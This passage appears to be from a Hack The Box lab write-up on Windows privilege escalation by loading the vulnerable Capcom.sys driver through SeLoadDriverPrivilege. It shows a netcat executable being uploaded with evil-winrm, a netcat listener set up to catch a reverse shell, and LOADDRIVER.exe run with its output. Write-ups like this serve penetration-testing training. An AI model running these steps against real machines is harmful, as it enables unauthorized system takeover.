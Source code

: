 Okay, we've got our files. Let's upload them to a `temp` directory on the victim machine with `evil-winrm`. We'll have to upload a `netcat` executable as well so that our batch file works.

![](/assets/img/posts/htb/07-2020-6/file-uploads.png)

On our Kali box, we'll start a `netcat` listener in preparation to capture a callback.

```bash
nc -lvnp 4444
```

Now, let's start performing the exploit. We'll run the `LOADDRIVER.exe` to prepare the driver.

```powershell
> .\LOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```
